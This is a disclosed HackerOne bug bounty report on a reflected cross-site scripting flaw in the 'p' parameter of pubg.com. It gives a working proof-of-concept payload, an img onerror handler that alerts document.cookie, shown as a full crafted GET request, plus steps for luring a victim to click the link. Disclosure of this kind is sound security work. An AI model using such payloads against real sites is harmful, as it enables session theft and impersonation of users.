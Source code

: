 # Reflected XSS in pubg.com

## Report Details
- **Report ID**: 751870
- **URL**: https://hackerone.com/reports/751870
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-12-05T10:08:37.752Z
- **Disclosed**: 2019-12-09T19:00:00.775Z

## Reporter
- **Username**: 0xfabiof
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: pubg

## Vulnerability Information
## Summary:

PUBG's main website https://www.pubg.com has an endpoint that is vulnerable to an injection vulnerability - namely a reflected injection of JavaScript, also known as Reflected Cross Site Scripting (XSS). As per OWASP's definition: "Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. "
This happens because one of the GET parameters "p" does not properly sanitize/escape user input, allowing an injection to occur.

## Steps To Reproduce:

To reproduce this, an attacker has to:

  * Prepare a Javascript payload that it wants the victim to execute. In this case, for Proof of Concept purposes, our Javascript code will prompt an alert showing the users' cookies.

```javascript
alert(document.cookie);
```

  * Inject this Javascript code properly into the vulnerable parameter, creating thus a crafted future GET request that will inject the payload.

```GETRequest
GET /?p=iqz78'%3e%3cimg%20src%3da%20onerror%3dalert(document.cookie)%3d1%3echplq HTTP/1.1
Host: www.pubg.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: https://www.pubg.com/es/feed/
Cookie: _icl_current_language=en; _icl_visitor_lang_js=en-us; wpml_browser_redirect_test=0; __cfduid=de74423d435717d651b1c9e2c63f4acc21575460678
```
Request PoC {F651167}


  * As this injection happens in a GET parameter, the attacker simply needs to send the crafted Link that produces this GET request to the victim and have the victim click it.

Injection Demonstration {F651168}



## Supporting Material/References:

  * Video Demonstration

{F651177}

## Impact

With user interaction, an attacker could execute arbitrary Javascript code in a victim's browser.
This would allow an attacker to unwillingly make a victim:

* Perform any action in the identified endpoint
* View any information that the user is able to view
* Modify any information that the user is able to modify (not sure if applicable in this case)
* Interact with other application users as if it were him - impersonation (not sure if applicable in this case)

## Attachments
- request_poc2.png
- PoC_xss.png
- Screencast_2019-12-05_100034.mp4
